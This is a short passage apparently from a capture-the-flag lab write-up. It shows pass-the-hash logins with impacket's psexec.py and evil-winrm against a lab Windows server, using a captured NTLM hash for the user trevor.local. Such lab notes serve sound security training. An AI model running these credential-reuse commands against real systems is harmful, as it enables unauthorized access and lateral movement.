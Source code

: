 ![Pasted image 20250527132408.png](../../../IMAGES/Pasted%20image%2020250527132408.png)

Since we got our hashes, we can use `psexec.py` or `evil-winrm` to authenticate:

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes :f8f33c432f07861310448b576d5ed2a6 trevor.local@THM_SERVER1_IP

# OR

evil-winrm -i THMSERVER1_IP -u trevor.local -H f8f33c432f07861310448b576d5ed2a6
```

![Pasted image 20250527132752.png](../../../IMAGES/Pasted%20image%2020250527132752.png)
